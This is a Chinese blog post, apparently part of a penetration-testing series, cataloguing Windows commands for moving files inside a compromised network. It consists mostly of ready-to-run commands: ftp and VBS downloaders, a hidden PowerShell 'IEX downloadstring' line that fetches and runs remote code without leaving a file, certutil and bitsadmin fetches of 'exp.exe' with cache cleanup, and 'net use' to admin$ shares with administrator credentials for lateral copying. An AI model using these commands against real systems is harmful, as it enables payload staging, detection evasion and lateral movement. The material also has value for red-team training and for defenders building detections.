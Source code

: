 # 005-内网文件传输技术 Windows篇


&lt;!--more--&gt;

本文简述内网Windows主机文件传输技术，包括利用ftp、VBScript、powershell、certutil.exe、bitsadmin、Xcopy，都是些老技术，整理分享。

## 一、ftp

windows 全平台自带ftp，在实战中需要考虑两点。

- 数据传输的完整性。
- 代码精简

ftp文件的传输方式：

- Binary，二进制方式；
- ASCII，ASCII传输

在FTP文件传输过程中，ASCII传输HTML和文本编写的文件，而二进制码传输可以传送文本和非文本（执行文件，压缩文件，图片等），具有通用性，二进制码传输速度比ASCII传输要快。

命令：

```shell
 echo open 192.168.1.115 21&gt; ftp.txt 
 echo 123&gt;&gt; ftp.txt          # 用户名 
 echo 123&gt;&gt; ftp.txt          # 密码 
 echo binary &gt;&gt; ftp.txt  # bin模式，设置二进制传输类型 
 echo get robots.txt &gt;&gt; ftp.txt     # 接收指定文件 
 echo bye &gt;&gt; ftp.txt         # 终止ftp会话并退出，同quit  
 
 # 指定包含 FTP 命令的文本文件；命令在 FTP 启动后自动运行。 
 ftp -s:ftp.txt   
 del /F /Q ftp.txt             # 安静模式强制删除ftp文件
```

![图片](/resource/内网文件传输技术-Windows篇.assets/640.png)



精简成一句话

```shell
echo open IP &gt; o&amp;echo user UserName Password &gt;&gt; o &amp;echo get Target_File.exe &gt;&gt; o &amp;echo quit &gt;&gt; o &amp;ftp ‐n ‐s:o &amp;del /F /Q o  

# -A匿名登录下载文件 
echo open IP &gt; o &amp; echo get Target_File.exe &gt;&gt; o &amp;echo quit&gt;&gt;o &amp;ftp -A -n -s:o &amp; del /F /Q o
```



## 二、VBS

编写VBS脚本并保存

```vbscript
set a=createobject(&#34;adod&#34;&#43;&#34;b.stream&#34;):set w=createobject(&#34;micro&#34;&#43;&#34;soft.xmlhttp&#34;):w.open&#34;get&#34;,wsh.arguments( 0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2
```

也可以用echo方式写入vbs

```vbscript
 echo set a=createobject(^&#34;adod^&#34;&#43;^&#34;b.stream^&#34;):set w=createobject(^&#34;micro^&#34;&#43;^&#34;soft.xmlhttp^&#34;):w.open ^&#34;get^&#34;,wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 &gt;&gt; downfile.vbs
```

命令行下载

```
cscript downfile.vbs http://192.168.126.130:8000/flag.txt  C:\Inetpub\b.txt
```

![图片](/resource/内网文件传输技术-Windows篇.assets/640-20230220172700358.png)

也可以把参数直接写入vbs文件中，直接执行。

优点：支持windows全版本系列缺点：对https不友好

VBS作为一门代码语言，可以有多种代码编写的方式，不只这一种

## 三、Powershell

```shell
# 远程下载文件到本地： 
powershell (new-object System.Net.WebClient).DownloadFile(&#39;http://192.168.183.138:8000/test.txt&#39;,&#39;test.exe&#39;)  

powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile(&#39;http://192.168.111.1:8080/exp.exe&#39;,&#39;C:\Users\1day\Desktop\Tools\exp.exe&#39;) 
exp.exe  

# 直接把文本转换为exe文件运行，无残留文件 
powershell -nop -w hidden -c &#34;IEX ((new-object net.webclient).downloadstring(&#39;http://192.168.183.138:8000/test.txt&#39;))&#34;
```

## 四、certutil

Certutil.exe是一个命令行程序，作为证书服务的一部分安装。您可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。

```shell
certutil.exe -urlcache -split -f http://192.168.16.157/exp.exe 
# certutil.exe下载有个弊端，它的每一次下载都有留有缓存，所以每次下载后需要清除缓存 
certutil.exe -urlcache -split -f http://192.168.16.157/exp.exe delete //删除缓存 
exp.exe 

-URLCache             -- 显示或删除 URL 缓存项目 
-split                -- 分离嵌入的 ASN.1 元素，并保存到文件 
-f                    -- 强制覆盖

```

![图片](/resource/内网文件传输技术-Windows篇.assets/640-20230220172700839.png)

默认下载为bin文件。但是不影响在命令行下使用。

certutil还自带base64编码解码功能

```
 certutil -encode c:\downfile.vbs downfile.bat 
 certutil -decode c:\downfile.bat downfile.txt
```

## 五、bitsadmin

 BITSAdmin是一个命令行工具，可用于创建下载或上传并监视其进度。 

 具体相关参数参见 官方文档：

```
USAGE: BITSADMIN [/RAWRETURN] [/WRAP | /NOWRAP] command 
The following commands are available:  

/?                Prints this help 
/UTIL  /?         打印实用程序命令列表 
/PEERCACHING /?   打印管理缓存的命令列表 
/CACHE /?         打印缓存管理命令 
/PEERS  /?        打印管道peer管理命令  

/LIST   [/ALLUSERS] [/VERBOSE]     打印任务列表 
/MONITOR [/ALLUSERS] [/REFRESH sec] 监控复制管理器 
/RESET   [/ALLUSERS]                删除所有任务  

/TRANSFER &lt;job name&gt; [type] [/PRIORITY priority] [/ACLFLAGS flags]
					remote_url local_name          传输一个或多个文件.
          [type] 为/DOWNLOAD或/UPLOAD; 默认为下载 
          可以指定多个 URL/文件对。local_name 只支持 绝对路径
```



```shell
bitsadmin /transfer 123 http://192.168.111.1:8080/exp.exe C:\Users\1day\Desktop\exp.exe

net use \\DC\admin$ /u:&#34;administrator&#34; &#34; 1qaz@WSX&#34;
bitsadmin /TRANSFER /DOWNLOAD \\WEB\admin$\temp\t.exe C:\windows\temp\t.exe

bitsadmin /TRANSFER /UPLOAD c:\windows\temp\t.exe \\WEB\admin$\temp\t.exe

```

![图片](/resource/内网文件传输技术-Windows篇.assets/640-20230220172700442.png)

bitsadmin，它可以在网络不稳定的状态下下载文件，出错会自 动重试，在比较复杂的网络环境下，有着不错的性能。

```shell
E:\&gt;bitsadmin /rawreturn /transfer down &#34;http://192.168.1.115/robots.txt&#34; E:\PDF\robots.txt
/RAWRETURN                     返回数据更适合解析
```

需要注意的是，bitsadmin要求服务器支持Range标头。如果需要下载过大的文件，需要提高优先级。配合上面的下载命令。再次执行

```shell
bitsadmin /setpriority down foreground

/SETPRIORITY    &lt;job&gt; &lt;priority&gt;    # 设置工作优先级   
		Priority usage choices:      
				FOREGROUND
        HIGH
        NORMAL
        LOW
```



## 六 、Xcopy

Windows 自带命令，复制文件和目录树

```shell
# 建立网络会话
net use \\DC\admin$ /u:&#34;administrator&#34; &#34;password&#34;

# 从本地推到远端
xcopy /s /h /d /c /y C:\Windows\Temp\t.exe \\WEB\\admin$\temp\ 

# 从远端拉到本地
xcopy /s /h /d /c /y \\WEB\\admin$\temp\t.exe C:\Windows\Temp\ 

参数讲解：
XCOPY source [destination]
	source         指定要复制的文件。
	destination    指定新文件的位置和/或名称。
	/S             复制目录和子目录，不包括空目录。
	/H             也复制隐藏文件和系统文件。
	/D:m-d-y      复制在指定日期或指定日期以后更改的文件。如果没有提供日期，只复制那些源时间比目标时间新的文件。
	/C             即使有错误，也继续复制。
	/Y             取消提示以确认要覆盖现有目标文件。
```


---

> 作者: Xavier  
> URL: http://localhost:1313/posts/%E5%86%85%E7%BD%91%E6%96%87%E4%BB%B6%E4%BC%A0%E8%BE%93%E6%8A%80%E6%9C%AF-windows%E7%AF%87/  

